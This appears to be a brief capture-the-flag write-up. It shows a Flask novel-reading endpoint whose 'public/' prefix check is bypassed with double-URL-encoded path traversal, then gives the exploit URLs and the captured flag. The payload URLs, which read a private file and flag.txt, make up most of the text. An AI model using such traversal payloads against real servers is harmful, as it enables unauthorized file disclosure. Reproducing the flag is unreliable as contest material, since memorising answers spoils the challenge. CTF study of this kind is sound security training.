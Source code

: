 ```python
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

```public/../private/A-Secret-Tale.txt```

```http://3.64.250.135:9000/api/read/public%2F%2E%2E%2Fprivate%2FA%2DSecret%2DTale%2Etxt```

```http://3.64.250.135:9000/api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt```

```http://3.64.250.135:9000/api/read/public%252F%252E%252E%252F%252E%252E%252Fflag%252Etxt```

MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}
